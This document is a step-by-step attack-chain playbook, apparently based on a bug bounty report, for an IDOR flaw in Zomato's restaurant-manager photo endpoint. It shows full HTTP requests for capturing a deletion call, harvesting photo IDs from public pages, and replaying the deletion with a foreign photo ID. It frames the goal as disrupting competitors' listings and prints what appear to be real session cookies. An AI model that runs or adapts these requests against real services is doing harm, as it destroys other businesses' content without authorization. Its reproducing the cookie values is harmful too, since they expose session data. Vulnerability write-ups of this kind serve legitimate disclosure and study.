

# IDOR in Zomato Photo Management for Cross-Restaurant Photo Deletion

Multi-stage attack chain demonstrating exploitation of an Insecure Direct Object Reference (IDOR) vulnerability in Zomato's restaurant manager endpoint, allowing deletion of photos from unauthorized restaurants.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 4 |
| Execution Time | ~10 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- Browser with developer tools or proxy like Burp Suite for request interception

### Target Environment

- Zomato web application (PHP-based)
- Authenticated access to restaurant manager accounts
- Services: S3 for photo storage

### Initial Access Requirements

- Valid credentials for at least two restaurant manager accounts
- Network access to www.zomato.com
- No prior elevated access needed beyond manager privileges

## Detailed Attack Procedures

### Step 1: Setup Restaurant Manager Accounts
procedure: [[procedures/Setup-Restaurant-Manager-Accounts]]

**Objective**: Gain authenticated access to multiple restaurant manager sessions to enable cross-account testing.

**Instructions**: Log in to Zomato with credentials for two separate restaurant accounts that have manager privileges. Capture and maintain session cookies for each to switch between accounts during testing.

**Expected Output**: Active manager sessions for both accounts, verifiable by accessing the photo management page at https://www.zomato.com/clients/manage_photos.php.

**Success Indicators**:
- Successful login and access to manage_photos.php for both accounts
- Session cookies captured (e.g., PHPSESSID)

### Step 2: Capture and Extract Photo IDs
procedure: [[procedures/Capture-and-Extract-Photo-IDs]]

**Objective**: Intercept a legitimate photo deletion request to identify and extract the photo_ids parameter format for later manipulation.

**Instructions**: Using the first restaurant account, navigate to the photo management page, initiate a photo deletion, and intercept the GET request to /php/client_manage_handler. Extract the photo_ids[] value, which is prefixed with 'r_' for restaurant photos (e.g., r_YxNDUOTE4MTYzO).

Execute the capture using browser tools or a proxy:

```http
GET /php/client_manage_handler?res_id=REDACTED&photo_ids%5B%5D=r_YxNDUOTE4MTYzO&removable=1&case=remove-active-photo HTTP/1.1
Host: www.zomato.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:61.0) Gecko/20100101 Firefox/61.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://www.zomato.com/
X-Requested-With: XMLHttpRequest
Cookie: REDACTED
Connection: close
```

**Expected Output**: Request captured with photo_ids extracted; response {"status":"success"} if deletion attempted.

**Success Indicators**:
- photo_ids parameter value saved (e.g., r_YxNDUOTE4MTYzO)
- Request details noted including res_id

### Step 3: Extract Target Photo IDs from Public Pages
procedure: [[procedures/Extract-Target-Photo-IDs-from-Public-Pages]]

**Objective**: Gather photo IDs from a target restaurant's public page without authentication to enable targeted deletion.

**Instructions**: Visit a target restaurant's public page (e.g., https://www.zomato.com/washington-dc/old-ebbitt-grill-downtown), click 'All photos', and intercept the POST request to /php/photoviewerData.php. Extract photo_id values (e.g., u_1MDU1NjE2NzE5M), and convert 'u_' prefix to 'r_' if targeting restaurant-uploaded photos.

Execute the interception:

```http
POST /php/photoviewerData.php HTTP/1.1
Host: www.zomato.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:61.0) Gecko/20100101 Firefox/61.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://www.zomato.com/
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 384
Cookie: REDACTED
Connection: close
X-Forwarded-For: 127.0.0.1

photoviewersize=NORMAL&photo_id=u_1MDU1NjE2NzE5M&type=res&index=1&category=all&res_id=16872578&group_id=false&onPage=true&moreToFetch%5B%5D=0&moreToFetch%5B%5D=1&moreToFetch%5B%5D=2&moreToFetch%5B%5D=3&moreToFetch%5B%5D=4&moreToFetch%5B%5D=5&moreToFetch%5B%5D=6&moreToFetch%5B%5D=7&moreToFetch%5B%5D=8&moreToFetch%5B%5D=9&moreToFetch%5B%5D=10&moreToFetch%5B%5D=11&moreToFetch%5B%5D=12
```

**Expected Output**: JSON response with photo details, including extractable photo_ids.

**Success Indicators**:
- Multiple photo_ids collected from target restaurant
- Prefix conversion applied if needed (u_ to r_)

### Step 4: Exploit IDOR to Delete Foreign Photos
procedure: [[procedures/Exploit-IDOR-to-Delete-Foreign-Photos]]

**Objective**: Use a second restaurant's session to delete photos from the first or target restaurant by manipulating photo_ids while keeping the authenticated res_id.

**Instructions**: Switch to the second restaurant account, capture its deletion request, replace photo_ids[] with the foreign ID from Step 2 or 3, and submit the modified GET request to /php/client_manage_handler. Verify deletion by checking the target restaurant's photos.

Execute the modified request using [[commands/zomato-modified-photo-deletion-idor]]:

```http
GET /php/client_manage_handler?███&photo_ids%5B%5D=r_YxNDUOTE4MTYzO&removable=1&case=remove-active-photo HTTP/1.1
Host: www.zomato.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:61.0) Gecko/20100101 Firefox/61.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://www.zomato.com/
X-Requested-With: XMLHttpRequest
Cookie: _ga=GA1.2.2082511252.1535917423; _gid=GA1.2.1587734047.1535917423; PHPSESSID=4821c7caf69f3253db3be3d4c42a15b7b04d223a; fbcity=283; zl=en; fbtrack=a09417c27b7e98b4b3f2ad8357ef3903; __utmx=141625785.FQnzc5UZQdSMS6ggKyLrqQ$0:NaN; __utmxx=141625785.FQnzc5UZQdSMS6ggKyLrqQ$0:1535944804:8035200; dpr=2; cto_lwid=82057293-9985-419b-a25b-4d8b6d89951b; G_ENABLED_IDPS=google; zhli=1; squeeze=cd186e1f53eee0d94e51ef00c9d4eb25; orange=2769113; al=1; session_id=null
Connection: close
X-Forwarded-For: 127.0.0.1
```

**Expected Output**: {"status":"success"}, and photo removed from target's S3 storage and public view.

**Success Indicators**:
- Response indicates success despite foreign photo_id
- Target photo no longer visible on public or manager page

## Attack Chain Summary

### Key Achievements

1. Demonstrated IDOR allowing unauthorized photo deletion across restaurants
2. Enabled targeted disruption of competitors' online images
3. Confirmed impact on S3-stored assets without ownership checks

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Valid Accounts]] Valid Accounts
- [[Exploit Public-Facing Application]] Exploit Public-Facing Application
- [[Data Destruction]] Data Destruction

### MITRE ATT&CK Tactics

- [[Initial Access]] Initial Access
- [[Impact]] Impact

---

*Last updated: 2023-10-01T00:00:00Z*
